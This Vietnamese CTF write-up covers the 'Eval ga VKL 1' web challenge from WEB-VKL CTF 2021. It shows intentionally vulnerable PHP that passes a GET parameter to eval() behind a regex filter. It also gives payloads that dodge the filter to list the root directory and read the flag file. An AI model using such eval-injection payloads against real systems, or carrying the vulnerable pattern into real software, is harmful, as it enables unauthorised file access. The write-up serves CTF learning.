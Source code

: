 ```yaml
---
layout: post
title: "WRITEUP WEB-VKL CTF 2021: WEB"
categories: CTF
toc: true
---
```


Ở bài này mình chỉ viết về 4 challeng của mình nha. (Eval ga VKL 1, Eval ga VKL 2, Baby SQL, FreeFlag).

Source tất cả các bài mình để ở đây [SOURCE](https://github.com/DauHoangTai/CTF/tree/master/2021/webvkl-CTF)
## Challenge Eval ga VKL 1 (5 solved)
Đầu tiên truy cập chall thì chúng ta được nhận 1 source code như sau.
```php
<?php
error_reporting(0);
chdir("/");
if (isset($_GET['cmd'])) {
    $cmd = $_GET['cmd'];
    if (preg_match("/[3-9`~!@#\$%^&*\-=+,;?'\"\[\]\{\}\\\\]|0|pcntl|highlight_file|var|root|func|contents|eval|count|cmp/i",$cmd) || substr_count($cmd,'.') > 2 || strlen($cmd) > 64) {
        die("ấu nâu !");
    } else {
        eval($cmd.";");
    }
} else {
    highlight_file(__FILE__);
}

?>
```
Đầu vào là `cmd` được filter khá kĩ, kiểm tra đầu vào nếu có 2 dấu chấm trở lên thì die và limit len là < 65. Nhưng chú ý thì không có system, exec hay các hàm có thể RCE.
Thử với `?cmd=system(id)` thì nhận được blank page => đời không như là mơ.
Đọc phpinfo() thì thấy các hàm có thể RCE đã bị disable function.
Bây giờ quay lại xem có thể sài những kí tự hay hàm nào: `chr strlen log log1p 2 1 print_r readfile end current next` -> đây là một số hàm có thể sử dụng. Bạn có thể check kĩ hơn và viết code để so disable function với function có trong php thì sẽ ra những hàm nào không bị disable nhé.

### Payload
```
Check các file và folder có trong / -> print_r(scandir(chr(strlen(log1p(1).log1p(1).log1p(2)))))
Thấy flag ở cuối array trả về
đọc flag -> readfile(end(scandir(chr(strlen(log1p(1).log1p(1).log1p(2))))))
```
Để mọi người hiểu hơn thì mình debug ở đây nhé
![image](https://user-images.githubusercontent.com/54855855/130331658-48dae587-633e-4efa-81da-8274255fad2a.png)
